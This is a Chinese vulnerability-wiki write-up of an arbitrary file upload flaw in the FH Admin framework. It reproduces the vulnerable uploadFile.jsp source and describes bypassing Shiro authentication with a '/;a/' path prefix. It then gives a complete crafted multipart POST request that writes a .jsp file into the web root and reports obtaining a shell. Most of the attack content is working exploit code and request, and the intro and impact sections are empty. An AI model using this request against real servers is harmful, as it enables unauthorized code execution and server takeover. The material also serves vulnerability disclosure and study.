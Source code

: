FH Admin 任意文件上传漏洞
=========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

`plugins/uploadify/uploadFile.jsp`，即在项目下面存在文件夹plugins，其下面存在文件夹uploadify，而uploadify文件夹下面同时存在uploadFile.jsp文件；那么该项目非常有可能存在漏洞。

`uploadFile.jsp`文件内容如下：

    <%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
    <%@ page import="java.io.*, java.util.*, org.apache.commons.fileupload.*, java.util.*" %>
    <%@ page import="org.apache.commons.fileupload.disk.*, org.apache.commons.fileupload.servlet.*" %>
    <%!
        
        public void upload(HttpServletRequest request, HttpServletResponse response)throws ServletException, IOException {
            String savePath = this.getServletConfig().getServletContext().getRealPath("");
            savePath = savePath + request.getParameter("uploadPath");
            File f1 = new File(savePath);
            //这里接收了uploadPath的值  System.out.println(request.getParameter("uploadPath"));
            if (!f1.exists()) {
                f1.mkdirs();
            }
            DiskFileItemFactory fac = new DiskFileItemFactory();
            ServletFileUpload upload = new ServletFileUpload(fac);
            upload.setHeaderEncoding("utf-8");
            List fileList = null;
            try {
                fileList = upload.parseRequest(request);
            } catch (FileUploadException ex) {
                return;
            }
            
            
            String fileNmae = request.getParameter("fileNmae"); 
            Iterator<FileItem> it = fileList.iterator();
            String name = "";
            String extName = "";
            while (it.hasNext()) {
                FileItem item = it.next();
                if (!item.isFormField()) {
                    name = item.getName();
                    long size = item.getSize();
                    String type = item.getContentType();
                    //System.out.println(size + " " + type);
                    if (name == null || name.trim().equals("")) {
                        continue;
                    }
        
                    // 扩展名格式：
                    if (name.lastIndexOf(".") >= 0) {
                        extName = name.substring(name.lastIndexOf("."));
                    }
        
                    File file = null;
                    if(null != fileNmae && !"".equals(fileNmae)){
                        file = new File(savePath + fileNmae);
                    }else{
                        do {
                            if(null != fileNmae && !"".equals(fileNmae)){
                                file = new File(savePath + fileNmae);
                            }else{
                                name = new java.text.SimpleDateFormat("yyyyMMddhhmmss").format(new Date());   //获取当前日期
                                name = name + (int)(Math.random()*90000+10000);
                                file = new File(savePath + name + extName);
                            }
                        } while (file.exists());
                    }
        
                    File saveFile = new File(savePath + name + extName);
                    try {
                        item.write(saveFile);
                    } catch (Exception e) {
                        e.printStackTrace();
                    }
                }
            }
            response.getWriter().print((name.trim() + extName.trim()).trim());
        }
    %>
    <%
        upload(request, response);
    %>

尝试访问此文件，提示未登录302跳转

![3.png](/Users/aresx/Documents/VulWiki/.resource/FHAdmin任意文件上传漏洞/media/rId24.png)

由于该框架使用到了shiro，如若shiro版本过低会导致shiro身份绕过漏洞，结合文库shiro部分的身份认证绕过利用即可getshell

我们使用

    /;a/plugins/uploadify/uploadFile.jsp 代码不唯一！！！具体请参考文库shiro权限绕过部分文章！！！

来绕过shiro的权限控制，可以注意到状态码为200

![4.png](/Users/aresx/Documents/VulWiki/.resource/FHAdmin任意文件上传漏洞/media/rId25.png)

结合之前给出的代码需要两个参数构造上传包

![5.png](/Users/aresx/Documents/VulWiki/.resource/FHAdmin任意文件上传漏洞/media/rId26.png)

发现上传成功，但是居然找不到文件。

![6.png](/Users/aresx/Documents/VulWiki/.resource/FHAdmin任意文件上传漏洞/media/rId27.png)

仔细看了一下才知道request.getParameter(\"uploadPath\");解析不了multipart里的参数，再次构造上传包

    POST /;a/plugins/uploadify/uploadFile.jsp?uploadPath=/plugins/uploadify/ HTTP/1.1
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQDeBiVqfe6p3FMnJ


    ------WebKitFormBoundaryQDeBiVqfe6p3FMnJ
    Content-Disposition: form-data; name="imgFile"; filename="2204249.jsp"
    Content-Type: image/jpeg

    test
    ------WebKitFormBoundaryQDeBiVqfe6p3FMnJ--

成功shell

参考链接
--------

> https://xz.aliyun.com/t/8311
